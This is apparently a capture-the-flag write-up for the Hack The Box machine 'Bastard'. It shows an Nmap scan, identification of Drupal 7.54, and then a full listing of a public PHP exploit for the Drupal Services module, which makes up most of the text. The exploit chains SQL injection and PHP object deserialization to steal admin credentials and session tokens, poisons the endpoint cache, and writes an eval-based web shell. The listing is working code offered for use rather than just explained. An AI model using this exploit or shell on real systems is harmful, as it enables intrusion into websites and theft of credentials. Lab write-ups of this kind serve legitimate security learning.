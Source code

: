 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce)
<br>Now download the exploit from the blog and edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
**Exploit**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat exploit.php
<br>#!/usr/bin/php
<br><?php
<br># Drupal Services Module Remote Code Execution Exploit
<br># https://www.ambionics.io/blog/drupal-services-module-rce
<br># cf
<br>#
<br># Three stages:
<br># 1. Use the SQL Injection to get the contents of the cache for current endpoint
<br>#    along with admin credentials and hash
<br># 2. Alter the cache to allow us to write a file and do so
<br># 3. Restore the cache
<br># </p>

<p># Initialization</p>

<p>error_reporting(E_ALL);</p>

<p>define('QID', 'anything');
<br>define('TYPE_PHP', 'application/vnd.php.serialized');
<br>define('TYPE_JSON', 'application/json');
<br>define('CONTROLLER', 'user');
<br>define('ACTION', 'login');</p>

<p>$url = 'http://10.10.10.9';
<br>$endpoint_path = '/rest';
<br>$endpoint = 'rest_endpoint';</p>

<p>$file = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;'filename' => 'dixuSOspsOUU.php',
<br>&nbsp;&nbsp;&nbsp;&nbsp;'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
<br>];</p>

<p>$browser = new Browser($url . $endpoint_path);</p>


<p># Stage 1: SQL Injection</p>

</p>class DatabaseCondition
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $conditions = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"#conjunction" => "AND"
<br>&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $arguments = [];
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $changed = false;
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $queryPlaceholderIdentifier = null;
<br>&nbsp;&nbsp;&nbsp;&nbsp;public $stringVersion = null;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;public function __construct($stringVersion=null)
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->stringVersion = $stringVersion;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if(!isset($stringVersion))
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->changed = true;
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->stringVersion = null;
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;}
<br>}</p>

<p>class SelectQueryExtender {
<br>&nbsp;&nbsp;&nbsp;&nbsp;# Contains a DatabaseCondition object instead of a SelectQueryInterface
<br>&nbsp;&nbsp;&nbsp;&nbsp;# so that $query->compile() exists and (string) $query is controlled by us.
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $query = null;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;protected $uniqueIdentifier = QID;
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $connection;
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $placeholder = 0;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;public function __construct($sql)
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;$this->query = new DatabaseCondition($sql);
<br>&nbsp;&nbsp;&nbsp;&nbsp;}
<br>}</p>

<p>$cache_id = "services:$endpoint:resources";
<br>$sql_cache = "SELECT data FROM {cache} WHERE cid='$cache_id'";
<br>$password_hash = '$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd';</p>

<p># Take first user but with a custom password
<br># Store the original password hash in signature_format, and endpoint cache
<br># in signature
<br>$query = 
<br>&nbsp;&nbsp;&nbsp;&nbsp;"0x3a) UNION SELECT ux.uid AS uid, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.name AS name, '$password_hash' AS pass, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.pass AS signature_format, ux.created AS created, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.access AS access, ux.login AS login, ux.status AS status, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.timezone AS timezone, ux.language AS language, ux.picture " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"AS picture, ux.init AS init, ux.data AS data FROM {users} ux " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"WHERE ux.uid<>(0"
<br>;</p>

<p>$query = new SelectQueryExtender($query);
<br>$data = ['username' => $query, 'password' => 'ouvreboite'];
<br>$data = serialize($data);</p>

<p>$json = $browser->post(TYPE_PHP, $data);</p>

<p># If this worked, the rest will as well
<br>if(!isset($json->user))
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;print_r($json);
<br>&nbsp;&nbsp;&nbsp;&nbsp;e("Failed to login with fake password");
<br>}</p>

<p># Store session and user data</p>

<p>$session = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;'session_name' => $json->session_name,
<br>&nbsp;&nbsp;&nbsp;&nbsp;'session_id' => $json->sessid,
<br>&nbsp;&nbsp;&nbsp;&nbsp;'token' => $json->token
<br>];
<br>store('session', $session);</p>

<p>$user = $json->user;</p>

<p># Unserialize the cached value
<br># Note: Drupal websites admins, this is your opportunity to fight back :)
<br>$cache = unserialize($user->signature);</p>

<p># Reassign fields
<br>$user->pass = $user->signature_format;
<br>unset($user->signature);
<br>unset($user->signature_format);</p>

<p>store('user', $user);</p>

<p>if($cache === false)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;e("Unable to obtains endpoint's cache value");
<br>}</p>

<p>x("Cache contains " . sizeof($cache) . " entries");</p>

<p># Stage 2: Change endpoint's behaviour to write a shell</p>

<p>class DrupalCacheArray
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;# Cache ID
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $cid = "services:endpoint_name:resources";
<br>&nbsp;&nbsp;&nbsp;&nbsp;# Name of the table to fetch data from.
<br>&nbsp;&nbsp;&nbsp;&nbsp;# Can also be used to SQL inject in DrupalDatabaseCache::getMultiple()
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $bin = 'cache';
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $keysToPersist = [];
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $storage = [];</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;function __construct($storage, $endpoint, $controller, $action) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;$settings = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;'services' => ['resource_api_version' => '1.0']
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->cid = "services:$endpoint:resources";</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# If no endpoint is given, just reset the original values
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if(isset($controller))
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$storage[$controller]['actions'][$action] = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'help' => 'Writes data to a file',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# Callback function
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'callback' => 'file_put_contents',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# This one does not accept "true" as Drupal does,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# so we just go for a tautology
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'access callback' => 'is_string',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'access arguments' => ['a string'],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# Arguments given through POST
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'args' => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0 => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'name' => 'filename',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'type' => 'string',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'description' => 'Path to the file',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'source' => ['data' => 'filename'],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'optional' => false,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1 => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'name' => 'data',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'type' => 'string',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'description' => 'The data to write',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'source' => ['data' => 'data'],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'optional' => false,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'file' => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'type' => 'inc',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'module' => 'services',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'name' => 'resources/user_resource',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'endpoint' => $settings
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$storage[$controller]['endpoint']['actions'] += [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$action => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'enabled' => 1,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'settings' => $settings
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;]
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->storage = $storage;
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->keysToPersist = array_fill_keys(array_keys($storage), true);
<br>&nbsp;&nbsp;&nbsp;&nbsp;}
<br>}</p>

<p>class ThemeRegistry Extends DrupalCacheArray {
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $persistable;
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $completeRegistry;
<br>}</p>

<p>cache_poison($endpoint, $cache);</p>

<p># Write the file
<br>$json = (array) $browser->post(TYPE_JSON, json_encode($file));</p>


<p># Stage 3: Restore endpoint's behaviour</p>

<p>cache_reset($endpoint, $cache);</p>

<p>if(!(isset($json[0]) && $json[0] === strlen($file['data'])))
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;e("Failed to write file.");
<br>}</p>

<p>$file_url = $url . '/' . $file['filename'];
<br>x("File written: $file_url");</p>


<p># HTTP Browser</p>

<p>class Browser
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;private $url;
<br>&nbsp;&nbsp;&nbsp;&nbsp;private $controller = CONTROLLER;
<br>&nbsp;&nbsp;&nbsp;&nbsp;private $action = ACTION;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;function __construct($url)
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->url = $url;
<br>&nbsp;&nbsp;&nbsp;&nbsp;}</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;function post($type, $data)
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$headers = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"Accept: " . TYPE_JSON,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"Content-Type: $type",
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"Content-Length: " . strlen($data)
<br>&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$url = $this->url . '/' . $this->controller . '/' . $this->action;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$s = curl_init(); 
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_URL, $url);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_HTTPHEADER, $headers);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_POST, 1);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_POSTFIELDS, $data);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_RETURNTRANSFER, true);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_SSL_VERIFYHOST, 0);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_SSL_VERIFYPEER, 0);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$output = curl_exec($s);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$error = curl_error($s);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_close($s);</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if($error)
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;e("cURL: $error");
<br>&nbsp;&nbsp;&nbsp;&nbsp;}</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;return json_decode($output);
<br>&nbsp;&nbsp;&nbsp;&nbsp;}
<br>}</p>

<p># Cache</p>

<p>function cache_poison($endpoint, $cache)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;$tr = new ThemeRegistry($cache, $endpoint, CONTROLLER, ACTION);
<br>&nbsp;&nbsp;&nbsp;&nbsp;cache_edit($tr);
<br>}</p>

<p>function cache_reset($endpoint, $cache)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;$tr = new ThemeRegistry($cache, $endpoint, null, null);
<br>&nbsp;&nbsp;&nbsp;&nbsp;cache_edit($tr);
<br>}</p>

<p>function cache_edit($tr)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;global $browser;
<br>&nbsp;&nbsp;&nbsp;&nbsp;$data = serialize([$tr]);
<br>&nbsp;&nbsp;&nbsp;&nbsp;$json = $browser->post(TYPE_PHP, $data);
<br>}</p>

<p># Utils</p>

<p>function x($message)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;print("$message\n");
<br>}</p>

<p>function e($message)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;x($message);
<br>&nbsp;&nbsp;&nbsp;&nbsp;exit(1);
<br>}</p>

<p>function store($name, $data)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;$filename = "$name.json";
<br>&nbsp;&nbsp;&nbsp;&nbsp;file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));
<br>&nbsp;&nbsp;&nbsp;&nbsp;x("Stored $name information in $filename");
<br>}</p>
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
